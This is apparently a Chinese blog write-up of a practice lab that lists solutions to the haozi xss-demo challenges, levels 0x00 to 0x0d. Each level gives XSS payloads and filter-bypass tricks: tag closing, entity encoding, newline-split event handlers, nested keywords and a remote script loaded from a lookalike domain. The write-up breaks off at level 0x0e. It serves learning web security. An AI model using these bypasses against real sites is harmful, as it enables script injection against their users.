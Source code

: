 ```yaml
---
layout: page
title: "XSS练习"
date: 2019-10-29 01:01
---
```


[TOC]

## 实验平台
https://curtails.github.io/xss/
https://xss.haozi.me

## xss-demo
[github](https://github.com/haozi/xss-demo/)  
[在线地址](https://xss.haozi.me)

拼凑所需语句即可不必关心原语句完整性？？浏览器容错性？？
- 0x00 `<script>alert(1)</script>` 无任何过滤
- 0x01 `</textarea><script>alert(1)</script>`闭合标签
- 0x02 `"> <script>alert(1)</script>`闭合标签
- 0x03 

```js
<script>alert`1`</script>
<svg><script>alert&#40;1&#41</script>
``` 

正则表达式过滤() 用``绕过或实体编码的字符编码
- 0x04 同0x03 

```js
<svg><script>alert&#40;1&#41</script>
<iframe onload=alert&#40;1&#41></iframe>
```
- 0x05
将-->替换成😀 html注释`<!--xxs--->`或`<!--xss--!>`
payload:`--!> <script>alert(1)</script>`

- 0x06
过滤`auto*****=`或`on*****=`替换为_ 可用换行符绕过

```js
onmousemove
=alert(1)

type=image src onerror
=alert(1)
```
- 0x07
匹配<***>字符串忽略大小写替换为空

```js
<svg/onload=alert(1) //有空格
```

- 0x08
将`</style>`替换成`/*坏人*/` 在标签>之前加个空格或换行就好了

```js
</style ><script>alert(1)</script>
</style
><script>alert(1)</script>
```

- 0x09
输入要以https://www.segmentfault.com开头 有一种payload是在网站上存在alert(1)js脚本

```js
https://www.segmentfault.com.haozi.me/j.js
```

- 0X0b
标签、域名不区分大小写
```
<script src="https://www.segmentfault.com.haozi.me/j.js"></script>
```

- 0x0c
正则替换script为空
```
<scrscriptipt src="https://www.segmentfault.com.haozi.me/j.js"></scrscriptipt>
```

- 0x0d
换行加单行注释绕过
```
 
alert(1)
-->
```

- 0x0e

